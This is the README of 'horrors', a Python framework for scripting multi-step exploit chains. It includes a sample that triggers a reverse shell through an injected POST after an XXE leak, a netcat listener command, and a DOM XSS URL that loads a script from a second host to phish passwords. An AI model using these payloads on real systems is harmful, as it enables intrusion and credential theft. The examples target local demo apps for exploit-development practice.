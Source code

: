 # horrors

> A micro-framework for writing attack scenarios starring multiple vulnerabilities.

## About

This framework was created in order to simplify attack automation and exploit development. All you have to do is, for example:

```python
async def reverse_shell(scenario):
    await scenario.background(
        requests.post,
        'http://{rhost}:{rport}/query/'.format(**scenario.context),
        data='secret={secret}&query=DROP+TABLE+IF+EXISTS+[...]{lhost}+{lport_reverse}'.format(**scenario.context),
        headers=scenario.context['post_headers'],
        proxies=scenario.context['proxy']
    )

context = {
    'rhost': '127.0.0.1',
    'rport': 8008,
    'lhost': '127.0.0.1',
    'lport_reverse': 4444,
    'proxy': {'http': 'http://127.0.0.1:8080'},
    'post_headers': {'Content-Type': 'application/x-www-form-urlencoded'},
}

ftpd = services.FTPReader()
ftpd.set_event('xxe', when=triggers.DataMatch(r'.+SecretKey=(.+);', bucket='secret'))

story = scenarios.Scenario(**context)
story.debug()
story.spawn(ftpd)
story.add_scene(reverse_shell, when='xxe')
story.play()
```

## Installation

    $ git clone https://github.com/tasooshi/horrors
    $ cd horrors; pip3 install .

## Example

Examples are included in the `horrors/examples` directory. Try it out by running:

### 1. vulnchain

    $ nc -lv4 4444
    $ horrors/examples/vulnchain/victim.py
    $ horrors/examples/vulnchain/attacker.py

[![example](https://img.youtube.com/vi/VQwysZItPrE/0.jpg)](https://www.youtube.com/watch?v=VQwysZItPrE)

### 2. xssphish

Or (this one requires interaction):

    $ horrors/examples/xssphish/victim.py
    $ horrors/examples/xssphish/attacker.py

Now visit `http://127.0.0.1:8008/?message=<script src="http://127.0.0.1:8888/fakequery.js"></script>`, type some passwords and watch `collected.json` for incoming credentials.

![xssphish](examples/xssphish/dom-based-xss-phish.jpg)


## Changelog

* **2021/12/12** Beta (v0.4)
    * A bit of asyncio cleaning up
    * Fixed examples to match the new interfaces
    * Simplified services imports
    * Changed default ports
    * Added requirements to setup.py
* **2021/08/26** Beta (v0.3)
    * Yet another refactoring.
    * Added full HTTP support using Flask.
    * Added `utility/collector.py` to simplify data collection from exploited machines (and another related example).
* **2021/08/10** Beta (v0.2)
    * Refactored and largely simplified codebase: it is now easier to reuse code between multiple scenarios by mixing functions, wrapping in classes etc.
    * Steps are not executed sequentially, you decide depending on signals (events) registered when adding to scenario (`story.add(func, when='something')`).
    * Removed asyncio.Event dependency since I was not able to make it work the way I wanted.
* **2021/07/30** Initial release (v0.1)
